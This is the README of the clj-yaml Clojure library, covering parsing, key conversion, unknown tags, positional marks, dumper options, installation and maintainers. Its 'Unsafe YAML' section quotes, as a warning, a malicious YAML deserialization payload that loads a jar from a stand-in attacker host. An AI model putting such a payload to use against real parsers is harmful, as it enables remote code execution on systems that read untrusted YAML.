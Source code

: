 = `clj-commons/clj-yaml`
// DO NOT EDIT: the lib-version parameter is automatically updated by bb publish
:lib-version: 0.7.169
:project-coords: clj-commons/clj-yaml
:toc-level: 4
:toc: macro

Provides http://yaml.org[YAML] encoding and decoding for Clojure via the https://bitbucket.org/snakeyaml/snakeyaml[snakeyaml] Java library.

// Badges
https://clojars.org/{project-coords}[image:https://img.shields.io/clojars/v/{project-coords}.svg[Clojars Project]] 
https://cljdoc.org/d/{project-coords}[image:https://cljdoc.org/badge/{project-coords}[cljdoc badge]]
https://github.com/{project-coords}/actions/workflows/tests.yml[image:https://github.com/{project-coords}/actions/workflows/tests.yml/badge.svg[CI tests]]
https://babashka.org[image:https://raw.githubusercontent.com/babashka/babashka/master/logo/built-in-badge.svg[bb built-in]]
https://clojurians.slack.com/archives/C042XAQFCCU[image:https://img.shields.io/badge/slack-join_chat-brightgreen.svg[Slack chat]]

(This is a maintained fork of https://github.com/CircleCI-Archived/clj-yaml[the circleci fork] which forked from https://github.com/lancepantz/clj-yaml[the original])

toc::[]

== Usage

=== Internal vs Public API

When the clj-commons/clj-yaml team adopted clj-yaml it made some assumptions about the clj-yaml public API.
It turns out folks are using more of clj-yaml than we originally expected.

We encourage you to stick to the higher level functions as documented in the `clj-yaml.core` namespace.

If you do find yourself needing to use the lower level functions, please let us know.
Perhaps you are doing so to overcome a limitation in clj-yaml that we could address to everyone's benefit.

Note that babashka only exposes the higher level functions.

=== Parsing

[source,clojure]
----
(require '[clj-yaml.core :as yaml])

(yaml/generate-string
  [{:name "John Smith", :age 33}
   {:name "Mary Smith", :age 27}])
;; => "- {name: John Smith, age: 33}\n- {name: Mary Smith, age: 27}\n"

(yaml/parse-string "
- {name: John Smith, age: 33}
- name: Mary Smith
  age: 27
")
;; => ({:name "John Smith", :age 33}
;      {:name "Mary Smith", :age 27})
----

==== Key Conversion
By default, YAML keys are converted to clojure keywords. To prevent this, add `:keywords false` parameters to the `parse-string` function:

[source,clojure]
----
(yaml/parse-string "
- {name: John Smith}
" :keywords false)
;; => ({"name" "John Smith"})
----

TIP: The `:keywords` option defaults to `true` for historical reasons.
Depending on the YAML you are parsing, you very well might want to set this to `false`.
When clj-yaml detects a key that cannot be converted to a Clojure keyword, it will leave it unconverted.
Keep in mind detection is not sophisticated and can result in keywords that are illegal and unreadable.

==== Unknown tags [[unknown-tags]]
Unknown tags can be handled by passing a handler function via the
`:unknown-tag-fn` parameter. The handler function is provided a map which
includes `:tag` and `:value` keys. Note that the value passed to the
`unknown-tag-fn` is a string if it's a scalar, regardless of the quoting (or
lack thereof) of the scalar value.

[source,clojure]
----
;; drop unknown tags
(yaml/parse-string "!Base12 10" :unknown-tag-fn :value
;; => "10"

;; or do some smart convertion
(yaml/parse-string "!Base12 10"
                   :unknown-tag-fn (fn [{:keys [tag value]}]
                                      (if (= "!Base12" tag)
                                          (Integer/parseInt value 12)
                                          value)))
;; => 12
----

==== Unsafe YAML [[unsafe]]
Clj-yaml optionally supports the creation of Java classes.
This is considered unsafe.

IMPORTANT: Be very wary of specifying `:unsafe true` unless you completely trust your YAML inputs.
Consider instead using `:unknown-tag-fn` for fine and deliberate control.

An example of some malicious YAML is https://j0vsec.com/post/cve-2021-25738/[well described by J0VSEC].
Here's the dangerous snippit described:

[source, yaml]
----
some_var: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://attacker-server.tld/poc.jar"]]]]
----

Also security related are `:allow-recursive-keys` and `:max-aliases-for-collections` options.

==== Positional Data [[mark]]
You can ask clj-yaml to return parsed YAML with extra positional data markers.

[source,clojure]
----
(def some-yaml )

(yaml/parse-string "
- name: Mary Smith
  age: 27
" :mark true)
;; => {:start {:line 1, :index 1, :column 0},
;;     :end {:line 3, :index 30, :column 0},
;;     :unmark
;;     ({:start {:line 1, :index 3, :column 2},
;;       :end {:line 3, :index 30, :column 0},
;;       :unmark
;;       {{:start {:line 1, :index 3, :column 2},
;;         :end {:line 1, :index 7, :column 6},
;;         :unmark "name"}
;;        {:start {:line 1, :index 9, :column 8},
;;         :end {:line 1, :index 19, :column 18},
;;         :unmark "Mary Smith"},
;;        {:start {:line 2, :index 22, :column 2},
;;         :end {:line 2, :index 25, :column 5},
;;         :unmark "age"}
;;        {:start {:line 2, :index 27, :column 7},
;;         :end {:line 2, :index 29, :column 9},
;;         :unmark 27}}})}
----

In reality, the `:start` `:end` and `:unmark` maps are internally a record and can be recognized via `marked?` and unwrapped via `unmark`.

=== Generating

==== Dumper Options [[dumper-options]]
Different flow styles (`:auto`, `:block`, `:flow`) allow customization of how YAML is rendered.

To demonstrate let's setup `some-data` to play with.

[source,clojure]
----
(def some-yaml "
todo:
  - name: Fix issue
    responsible:
      name: Rita
")

(def some-data (yaml/parse-string some-yaml))
----

To select the `:block` flow style:
[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:flow-style :block})
----

results in a string of YAML, that when printed:
[source,yaml]
----
todo:
- name: Fix issue
  responsible:
    name: Rita
----

The same but with the `:flow` style results in:
[source,yaml]
----
{todo: [{name: Fix issue, responsible: {name: Rita}}]}
----

And finally the `:auto` style (the default) renders:
[source,yaml]
----
todo:
- name: Fix issue
  responsible: {name: Rita}
----

Use the `:indent` (default: `2`) and `:indicator-indent` (default: `0`) options to adjust indentation:

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 6
                                                 :indicator-indent 3
                                                 :flow-style :block})
----

results in:
[source,yaml]
----
todo:
   -  name: Fix issue
      responsible:
            name: Rita
----

`:indent` must always be larger than `:indicator-indent`.
If only 1 higher, the indicator will be on a separate line:

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 2
                                                 :indicator-indent 1
                                                 :flow-style :block})
----
outputs:
[source,yaml]
----
todo:
 -
  name: Fix issue
  responsible:
    name: Rita
----

== Installation

`clj-commons/clj-yaml` is available as a Maven artifact from http://clojars.org/clj-commons/clj-yaml[Clojars].

=== Leiningen/Boot

[source,clojure,subs="attributes+"]
----
[clj-commons/clj-yaml "{lib-version}"]
----

=== Clojure CLI/`deps.edn`

[source,clojure,subs="attributes+"]
----
clj-commons/clj-yaml {:mvn/version "{lib-version}"}
----

=== Use as git dependency

To get the latest changes that are not yet released to Clojars, you can use this library as a git dependency:

[source,clojure]
----
$ cat deps.edn
{:deps {clj-commons/clj-yaml {:git/url "https://github.com/clj-commons/clj-yaml"
                              :git/sha "05eaca35c34c092ffdd2e620ef07962ce147a88b"}}}

$ clj -X:deps prep
$ clj -M -e "(require '[clj-yaml.core :as yaml])"
----

Replace the `:git/sha` value as appropriate.

== Development

We use babashka tasks.
To see a list of available tasks:

[source,shell]
----
bb tasks
----

[source,shell]
----
$ git clone git://github.com/clj-commons/clj-yaml.git
$ bb download-deps
$ bb compile-java
$ bb test
----

== People

=== Contributors
A huge thank you to https://github.com/clj-commons/clj-yaml/graphs/contributors[all the people who have contributed directly to clj-yaml]!

=== Founders

* https://github.com/lancepantz[@lancepantz] - the creator or clj-yaml
* https://github.com/marcomorain[@marcomorain] - the holder of the torch for the CircleCI fork

=== Current Active Maintainers

* https://github.com/borkdude[@borkdude]
* https://github.com/lread[@lread]

== License
(c) Lance Bradley - Licensed under the same terms as clojure itself. See LICENCE file for details.
Portions (c) Owain Lewis as marked.
